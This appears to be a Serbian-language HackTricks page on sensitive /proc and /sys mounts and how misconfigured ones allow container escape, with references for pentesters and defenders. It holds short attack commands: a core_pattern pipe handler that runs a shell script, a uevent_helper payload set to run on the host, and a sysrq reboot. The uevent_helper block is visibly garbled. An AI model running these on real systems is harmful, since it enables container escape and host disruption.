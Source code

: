 # Sensitive Mounts

{{#include ../../../../banners/hacktricks-training.md}}

Izlaganje `/proc` i `/sys` bez odgovarajuće izolacije prostora imena uvodi značajne bezbednosne rizike, uključujući povećanje napadačke površine i otkrivanje informacija. Ovi direktorijumi sadrže osetljive datoteke koje, ako su pogrešno konfigurisane ili pristupene od strane neovlašćenog korisnika, mogu dovesti do bekstva iz kontejnera, modifikacije hosta ili pružiti informacije koje pomažu daljim napadima. Na primer, pogrešno montiranje `-v /proc:/host/proc` može zaobići AppArmor zaštitu zbog svoje putanje, ostavljajući `/host/proc` nezaštićenim.

**Možete pronaći dodatne detalje o svakoj potencijalnoj ranjivosti u** [**https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts**](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)**.**

## procfs Vulnerabilities

### `/proc/sys`

Ovaj direktorijum omogućava pristup za modifikaciju kernel varijabli, obično putem `sysctl(2)`, i sadrži nekoliko poddirektorijuma od značaja:

#### **`/proc/sys/kernel/core_pattern`**

- Opisano u [core(5)](https://man7.org/linux/man-pages/man5/core.5.html).
- Omogućava definisanje programa koji će se izvršiti prilikom generisanja core datoteke sa prvih 128 bajtova kao argumentima. Ovo može dovesti do izvršavanja koda ako datoteka počinje sa cevom `|`.
- **Primer testiranja i eksploatacije**:

```bash
[ -w /proc/sys/kernel/core_pattern ] && echo Yes # Test write access
cd /proc/sys/kernel
echo "|$overlay/shell.sh" > core_pattern # Set custom handler
sleep 5 && ./crash & # Trigger handler
```

#### **`/proc/sys/kernel/modprobe`**

- Detaljno opisano u [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).
- Sadrži putanju do učitača kernel modula, pozvanog za učitavanje kernel modula.
- **Primer provere pristupa**:

```bash
ls -l $(cat /proc/sys/kernel/modprobe) # Check access to modprobe
```

#### **`/proc/sys/vm/panic_on_oom`**

- Pomenuto u [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).
- Globalna zastavica koja kontroliše da li kernel panici ili poziva OOM killer kada dođe do OOM uslova.

#### **`/proc/sys/fs`**

- Prema [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html), sadrži opcije i informacije o datotečnom sistemu.
- Pristup za pisanje može omogućiti razne napade uskraćivanja usluge protiv hosta.

#### **`/proc/sys/fs/binfmt_misc`**

- Omogućava registraciju interpretera za nenativne binarne formate na osnovu njihovog magičnog broja.
- Može dovesti do eskalacije privilegija ili pristupa root shell-u ako je `/proc/sys/fs/binfmt_misc/register` zapisiv.
- Relevantna eksploatacija i objašnjenje:
- [Poor man's rootkit via binfmt_misc](https://github.com/toffan/binfmt_misc)
- Detaljan tutorijal: [Video link](https://www.youtube.com/watch?v=WBC7hhgMvQQ)

### Others in `/proc`

#### **`/proc/config.gz`**

- Može otkriti konfiguraciju kernela ako je `CONFIG_IKCONFIG_PROC` omogućeno.
- Korisno za napadače da identifikuju ranjivosti u pokrenutom kernelu.

#### **`/proc/sysrq-trigger`**

- Omogućava pozivanje Sysrq komandi, potencijalno uzrokujući trenutne restartove sistema ili druge kritične akcije.
- **Primer restartovanja hosta**:

```bash
echo b > /proc/sysrq-trigger # Reboots the host
```

#### **`/proc/kmsg`**

- Izlaže poruke kernel ring buffer-a.
- Može pomoći u kernel eksploatacijama, curenjima adresa i pružiti osetljive sistemske informacije.

#### **`/proc/kallsyms`**

- Lista kernel eksportovane simbole i njihove adrese.
- Osnovno za razvoj kernel eksploatacija, posebno za prevazilaženje KASLR-a.
- Informacije o adresama su ograničene sa `kptr_restrict` postavljenim na `1` ili `2`.
- Detalji u [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).

#### **`/proc/[pid]/mem`**

- Interfejs sa kernel memorijskim uređajem `/dev/mem`.
- Istorijski ranjiv na napade eskalacije privilegija.
- Više o [proc(5)](https://man7.org/linux/man-pages/man5/proc.5.html).

#### **`/proc/kcore`**

- Predstavlja fizičku memoriju sistema u ELF core formatu.
- Čitanje može otkriti sadržaj memorije host sistema i drugih kontejnera.
- Velika veličina datoteke može dovesti do problema sa čitanjem ili rušenjem softvera.
- Detaljna upotreba u [Dumping /proc/kcore in 2019](https://schlafwandler.github.io/posts/dumping-/proc/kcore/).

#### **`/proc/kmem`**

- Alternativni interfejs za `/dev/kmem`, predstavlja kernel virtuelnu memoriju.
- Omogućava čitanje i pisanje, što znači direktnu modifikaciju kernel memorije.

#### **`/proc/mem`**

- Alternativni interfejs za `/dev/mem`, predstavlja fizičku memoriju.
- Omogućava čitanje i pisanje, modifikacija sve memorije zahteva rešavanje virtuelnih do fizičkih adresa.

#### **`/proc/sched_debug`**

- Vraća informacije o raspoređivanju procesa, zaobilazeći PID namespace zaštite.
- Izlaže imena procesa, ID-eve i cgroup identifikatore.

#### **`/proc/[pid]/mountinfo`**

- Pruža informacije o tačkama montiranja u prostoru imena montiranja procesa.
- Izlaže lokaciju kontejnera `rootfs` ili slike.

### `/sys` Vulnerabilities

#### **`/sys/kernel/uevent_helper`**

- Koristi se za rukovanje kernel uređajima `uevents`.
- Pisanje u `/sys/kernel/uevent_helper` može izvršiti proizvoljne skripte prilikom `uevent` okidača.
- **Primer za eksploataciju**: %%%bash

#### Kreira payload

echo "#!/bin/sh" > /evil-helper echo "ps > /output" >> /evil-helper chmod +x /evil-helper

#### Pronalazi putanju hosta iz OverlayFS montiranja za kontejner

host*path=$(sed -n 's/.*\perdir=(\[^,]\_).\*/\1/p' /etc/mtab)

#### Postavlja uevent_helper na maliciozni helper

echo "$host_path/evil-helper" > /sys/kernel/uevent_helper

#### Okida uevent

echo change > /sys/class/mem/null/uevent

#### Čita izlaz

cat /output %%%

#### **`/sys/class/thermal`**

- Kontroliše postavke temperature, potencijalno uzrokujući DoS napade ili fizičku štetu.

#### **`/sys/kernel/vmcoreinfo`**

- Curi kernel adrese, potencijalno kompromitujući KASLR.

#### **`/sys/kernel/security`**

- Sadrži `securityfs` interfejs, omogućavajući konfiguraciju Linux Security Modules kao što je AppArmor.
- Pristup može omogućiti kontejneru da onemogući svoj MAC sistem.

#### **`/sys/firmware/efi/vars` i `/sys/firmware/efi/efivars`**

- Izlaže interfejse za interakciju sa EFI varijablama u NVRAM-u.
- Pogrešna konfiguracija ili eksploatacija može dovesti do "brick"-ovanih laptopova ili nebootabilnih host mašina.

#### **`/sys/kernel/debug`**

- `debugfs` nudi "bez pravila" interfejs za debagovanje kernela.
- Istorija bezbednosnih problema zbog svoje neograničene prirode.

### References

- [https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts](https://0xn3va.gitbook.io/cheat-sheets/container/escaping/sensitive-mounts)
- [Understanding and Hardening Linux Containers](https://research.nccgroup.com/wp-content/uploads/2020/07/ncc_group_understanding_hardening_linux_containers-1-1.pdf)
- [Abusing Privileged and Unprivileged Linux Containers](https://www.nccgroup.com/globalassets/our-research/us/whitepapers/2016/june/container_whitepaper.pdf)

{{#include ../../../../banners/hacktricks-training.md}}
